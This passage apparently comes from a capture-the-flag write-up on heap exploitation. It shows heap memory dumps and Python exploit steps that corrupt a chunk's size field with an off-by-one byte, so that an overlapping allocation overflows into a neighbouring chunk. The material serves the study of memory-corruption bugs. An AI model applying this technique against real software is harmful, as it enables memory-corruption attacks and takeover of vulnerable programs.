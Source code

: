 ```
0x5555555593f0:	0x0000000000000000	0x0000000000000000
0x555555559400:	0x0000000000000000	0x0000000000000000
0x555555559410:	0x0000000000000000	0x0000000000000000
0x555555559420:	0x0000000000000000	0x0000000000000000
0x555555559430:	0x0000000000000000	0x0000000000000000
0x555555559440:	0x0000000000000000	0x0000000000000000
0x555555559450:	0x0000000000000000	0x0000000000000101 [C]
0x555555559460:	0x0000000043434343	0x0000000000000000
```

By now overwriting `size` of `B` from `0x101` to `0x181` and then freeing it, we will place it in the freelist for chunks of size `0x180`. As it is in the freelist, it will be used to serve the next `malloc(0x178)`. Now we are able to overflow many bytes into C!
```python
free(0)                         #Free A
add(0xf8, "A"*0xf8 + "\x81")    #Reallocate and overwrite size of [B]
free(1)                         #Place B in size 0x180 freelist
add(0x178, "B"*0x120)           #Reallocate it and overflow into C
```

```
0x555555559250:	0x0000000000000000	0x0000000000000101 [A]
0x555555559260:	0x4141414141414141	0x4141414141414141
0x555555559270:	0x4141414141414141	0x4141414141414141
0x555555559280:	0x4141414141414141	0x4141414141414141
0x555555559290:	0x4141414141414141	0x4141414141414141
0x5555555592a0:	0x4141414141414141	0x4141414141414141
0x5555555592b0:	0x4141414141414141	0x4141414141414141
0x5555555592c0:	0x4141414141414141	0x4141414141414141
0x5555555592d0:	0x4141414141414141	0x4141414141414141
0x5555555592e0:	0x4141414141414141	0x4141414141414141
0x5555555592f0:	0x4141414141414141	0x4141414141414141
0x555555559300:	0x4141414141414141	0x4141414141414141
0x555555559310:	0x4141414141414141	0x4141414141414141
0x555555559320:	0x4141414141414141	0x4141414141414141
0x555555559330:	0x4141414141414141	0x4141414141414141
0x555555559340:	0x4141414141414141	0x4141414141414141
0x555555559350:	0x4141414141414141	0x0000000000000181 [B]
0x555555559360:	0x4242424242424242	0x4242424242424242
0x555555559370:	0x4242424242424242	0x4242424242424242
0x555555559380:	0x4242424242424242	0x4242424242424242
0x555555559390:	0x4242424242424242	0x4242424242424242
0x5555555593a0:	0x4242424242424242	0x4242424242424242
0x5555555593b0:	0x4242424242424242	0x4242424242424242
0x5555555593c0:	0x4242424242424242	0x4242424242424242
0x5555555593d0:	0x4242424242424242	0x4242424242424242
0x5555555593e0:	0x4242424242424242	0x4242424242424242
0x5555555593f0:	0x4242424242424242	0x4242424242424242
0x555555559400:	0x4242424242424242	0x4242424242424242
0x555555559410:	0x4242424242424242	0x4242424242424242
0x555555559420:	0x4242424242424242	0x4242424242424242
0x555555559430:	0x4242424242424242	0x4242424242424242
0x555555559440:	0x4242424242424242	0x4242424242424242
0x555555559450:	0x4242424242424242	0x4242424242424242 [C] (rekt!)
0x555555559460:	0x4242424242424242	0x4242424242424242
0x555555559470:	0x4242424242424242	0x4242424242424242
```
